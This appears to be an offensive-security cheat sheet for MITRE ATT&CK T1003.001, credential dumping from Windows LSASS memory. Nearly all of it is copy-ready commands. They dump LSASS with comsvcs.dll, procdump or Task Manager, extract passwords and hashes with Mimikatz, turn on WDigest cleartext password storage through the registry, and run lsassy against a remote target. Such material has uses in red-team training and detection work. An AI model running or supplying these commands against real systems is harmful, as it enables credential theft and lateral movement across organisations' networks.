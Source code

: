 

https://attack.mitre.org/techniques/T1003/001/

# ATTACK ID:

[T1003.001](https://attack.mitre.org/techniques/T1003/001/)

**Permissions Required:** **Administrator** | **SYSTEM**

**Description**

Adversaries may attempt to access credential material stored in the process memory of the Local Security Authority Subsystem Service (LSASS). After a user logs on, the system generates and stores a variety of credential materials in LSASS process memory. These credential materials can be harvested by an administrative user or SYSTEM and used to conduct [Lateral Movement](https://attack.mitre.org/tactics/TA0008) using [Use Alternate Authentication Material](https://attack.mitre.org/techniques/T1550).

As well as in-memory techniques, the LSASS process memory can be dumped from the target host and analyzed on a local system.

# Techniques

## comsvcs.dll

```powershell
# Get lsass.exe PID
tasklist /fi "Imagename eq lsass.exe"

# Call comsvcs.dll and dump to file.
C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <PID> \Windows\Temp\lsass_dump.dmp full

# Dump with Mimikatz
Invoke-Mimikatz -Command "sekurlsa::Minidump lsass_dump.dmp"
Invoke-Mimikatz -Command "sekurlsa::logonPasswords /full"
```

## Mimikatz

```powershell
Invoke-Mimikatz -DumpCreds
```

![](https://viperone.gitbook.io/~gitbook/image?url=https%3A%2F%2F1600278159-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252F-MFlgUPYI8q83vG2IJpI%252Fuploads%252FSPiXG5ELfSnRBMuklacX%252FMimikatz-DumpCreds.png%3Falt%3Dmedia%26token%3D3222cc7f-fac7-4e62-986f-0ccf7dc3f4b6&width=768&dpr=4&quality=100&sign=485db1cf&sv=2)

## Procdump

**URL:** [https://docs.microsoft.com/en-us/sysinternals/downloads/procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)

```powershell
.\procdump.exe -accepteula -ma lsass.exe lsass_dump
```

![](https://viperone.gitbook.io/~gitbook/image?url=https%3A%2F%2F1600278159-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252F-MFlgUPYI8q83vG2IJpI%252Fuploads%252F47IsFbRfy9U08kxn0rxX%252Fprocdump.png%3Falt%3Dmedia%26token%3D44800fe7-153d-4b8b-84c6-0d3455d4488a&width=768&dpr=4&quality=100&sign=5e343d5f&sv=2)

`Mimikatz` can then be used to pull information from the `lsass_dump.dmp` file.

```powershell
Invoke-Mimikatz -Command "sekurlsa::Minidump lsass_dump.dmp"
Invoke-Mimikatz -Command "sekurlsa::logonPasswords /full"
```

# Dumping Cleartext Credentials

The storage mechanism used by WDigest stores passwords in clear text in memory. If an adversary gains access to a system , they can utilize tools like Mimikatz and Lsassy to retrieve not only the password hashes stored in memory, but also the actual passwords in clear text

As a consequence, the attacker would not be restricted to only Pass-the-Hash methods of lateral movement, but could potentially gain access to other resources such as Exchange, internal websites, and any other systems that require a user ID and password for authentication.

```powershell
# CMD (Enable), Requires user to log off/on or lock screen to store in cleartext
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

# CMD (Disable), System reboot required to complete
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0 /f
```

```powershell
# Mimikatz (Everything)
Invoke-Mimikatz -DumpCreds
# Mimikatx (Just WDigest)
Invoke-Mimikatz -Command '"sekurlsa::wdigest"'

# Lsassy
lsassy -u '[User]' -p '[Password]' -d '[Domain]' '[Target-IP]' --users --exec smb
```

![](https://viperone.gitbook.io/~gitbook/image?url=https%3A%2F%2F1600278159-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252F-MFlgUPYI8q83vG2IJpI%252Fuploads%252FaTn4IopdqbLQqXOJb3az%252Fimage.png%3Falt%3Dmedia%26token%3D0f862ac8-40a0-432a-99dd-94d72e1afb61&width=768&dpr=4&quality=100&sign=653f313&sv=2)

# Task Manager / RDP

With Administrative RDP or interactive logon it is possible to create a dump file from Lsass.exe using Task Manger.

_Lsass.exe -> Right Click -> Create Dump File_

![](https://viperone.gitbook.io/~gitbook/image?url=https%3A%2F%2F1600278159-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252F-MFlgUPYI8q83vG2IJpI%252Fuploads%252FxMxmVSjGEsEUFQa3MZMf%252Fimage.png%3Falt%3Dmedia%26token%3D8a47a124-ed35-4daa-9984-8dd1304fba49&width=768&dpr=4&quality=100&sign=9140eaef&sv=2)

Use Mimikatz to read the dump file after transfering the file to an attacker controlled system

```powershell
Invoke-Mimikatz -Command "sekurlsa::Minidump lsass.DMP"
Invoke-Mimikatz -Command "sekurlsa::logonPasswords /full"
```
